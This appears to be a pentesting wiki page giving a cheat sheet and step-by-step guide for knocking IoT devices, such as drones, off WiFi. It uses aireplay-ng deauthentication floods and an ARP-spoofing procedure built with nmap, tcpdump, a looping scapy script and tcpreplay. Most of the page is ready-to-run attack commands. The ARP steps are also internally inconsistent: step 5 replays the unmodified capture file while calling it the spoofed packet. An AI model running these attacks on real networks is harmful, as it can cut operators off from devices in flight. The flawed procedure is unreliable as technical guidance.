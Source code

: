 # Deauthentication Attacks

## Theory

IoT devices are often either connected to a WiFi network or even host their own network for user to intact with it. A stable WiFi connection can be critical to some IoT devices.For example deauthentication is probably one of the most concerning things a drone pilot can experience, since when his controller is deauthenticated he is unable to control the drone appropriate.&#x20;

## Cheat Sheet

Using aireplay-ng

```bash
# Put the wireless interface in monitor mode
airmon-ng start wlan0  

# Scan for networks to identify target AP and clients
airodump-ng wlan0mon  

# (Optional) Focus scan on a specific channel to reduce noise
airodump-ng -c <channel> wlan0mon  

# Perform deauthentication attack on a specific client
aireplay-ng --deauth 10 -a <AP_BSSID> -c <CLIENT_MAC> wlan0mon  

# Deauthenticate all clients from the AP
aireplay-ng --deauth 10 -a <AP_BSSID> wlan0mon  

# Stop monitor mode on the wireless interface
airmon-ng stop wlan0mon  
```

ARP-Spoofing:

```bash
# 1. Join the Target Network
# Connect to the target network (no command, but ensure you're connected to the same network as the target device).

# 2. Identify the Target Device and Controller
nmap -sn <network_address_range>  # Scans the network to identify devices (replace with network range, e.g., 192.168.1.0/24)

# 3. Capture a Legitimate ARP Response
tcpdump -i <interface> arp -w arp_capture.pcap  # Captures ARP packets to a file (replace <interface> with your network interface)

# 4. Modify the ARP Response with a Spoofed MAC Address
# Use a tool like `scapy` in Python to craft a spoofed ARP packet:
from scapy.all import ARP, send
packet = ARP(op=2, psrc="<controller_IP>", hwsrc="<attacker_MAC>", pdst="<target_IP>")
send(packet, loop=1, inter=0.5)

# 5. Replay the Spoofed ARP Packet to the Target Device
tcpreplay --intf1=<interface> -l 0 arp_capture.pcap  # Sends the modified ARP packet to the network continuously (replace <interface>)

# 6. Monitor the Connection Status
# Observe the target device or controller for any indication of disconnection (e.g., disconnected light or notification).

# 7. Stop the Attack
# Stop sending packets by terminating the `tcpreplay` or ARP spoofing script (press Ctrl+C to end the process).
```

## Usage

{% tabs %}
{% tab title="aireplay-ng" %}
#### 1. **Put the Wireless Interface in Monitor Mode**

First, place your wireless network interface card in monitor mode. Replace `wlan0` (should be shown in `ifconfig`) with your interface name.

```bash
airmon-ng start wlan0
```

This will enable monitor mode on `wlan0` and may rename it to something like `wlan0mon`.

#### 2. **Identify Target Access Point and Clients**

Next, use `airodump-ng` to find the BSSID (MAC address) of the access point (AP) and the client(s) connected to it.

```bash
airodump-ng wlan0mon
```

Take note of the BSSID of the target AP and the channel it is operating on.

#### 3. **Deauthenticate Target Client**

Use the `aireplay-ng` command to send deauthentication packets. Replace `wlan0mon` with your monitor interface, `AP_BSSID` with the BSSID of the access point, and `CLIENT_MAC` with the MAC address of the target client.

*   **Deauthenticate a specific client from an AP:**

    ```bash
    aireplay-ng --deauth 10 -a AP_BSSID -c CLIENT_MAC wlan0mon
    ```

    Here, `10` is the number of deauth packets to send (you can increase or decrease this as needed).
*   **Deauthenticate all clients from an AP:**

    ```bash
    aireplay-ng --deauth 10 -a AP_BSSID wlan0mon
    ```
{% endtab %}

{% tab title="ARP-Spoofing" %}
#### 1. Join the Target Network

Connect to the target network you want to perform the attack on, as ARP spoofing requires the attacker to be within the same network.

#### 2. Identify Target Device and Controller

Use a network scanning tool like `nmap` to identify the IP and MAC addresses of the device (e.g., a drone) and the controller.

```bash
nmap -sn <network_address_range>
```

Replace `<network_address_range>` with the IP range (e.g., `192.168.1.0/24`). Note the IP and MAC addresses of both the target device and the controller.

#### 3. Capture a Legitimate ARP Response

Use `tcpdump` to capture ARP responses in the network. Look for packets showing the controller’s IP and MAC association.

```bash
tcpdump -i <interface> arp -w arp_capture.pcap
```

Replace `<interface>` with your network interface. This will save the ARP traffic to a file called `arp_capture.pcap`.

#### 4. Modify the ARP Response with a Spoofed MAC Address

Using `scapy` in Python, craft a spoofed ARP packet to mislead the target device into associating the controller's IP with the attacker's MAC.

```python
from scapy.all import ARP, send

packet = ARP(op=2, psrc="<controller_IP>", hwsrc="<attacker_MAC>", pdst="<target_IP>")
send(packet, loop=1, inter=0.5)
```

Replace `<controller_IP>` with the controller’s IP, `<attacker_MAC>` with your MAC address, and `<target_IP>` with the target device’s IP.

#### 5. Replay the Spoofed ARP Packet to the Target Device

Send the modified ARP packet to the target device continuously to maintain the spoofed association.

```bash
tcpreplay --intf1=<interface> -l 0 arp_capture.pcap
```

Replace `<interface>` with your network interface. This command replays the spoofed ARP response in a loop.

#### 6. Monitor the Connection Status

Observe the target device or the controller to confirm the deauthentication. The controller should eventually show a "disconnected" status when it no longer receives responses.

#### 7. Stop the Attack

To end the attack, stop sending spoofed ARP packets by terminating the replay or spoofing process (press `Ctrl+C` if running in a terminal). The target device should revert to the correct MAC association upon receiving a legitimate ARP response from the controller.
{% endtab %}
{% endtabs %}

## Resources

[https://book.hacktricks.xyz/generic-methodologies-and-resources/pentesting-wifi#deauthentication-packets](https://book.hacktricks.xyz/generic-methodologies-and-resources/pentesting-wifi#deauthentication-packets)\
[https://en.wikipedia.org/wiki/Wi-Fi\_deauthentication\_attack](https://en.wikipedia.org/wiki/Wi-Fi\_deauthentication\_attack)
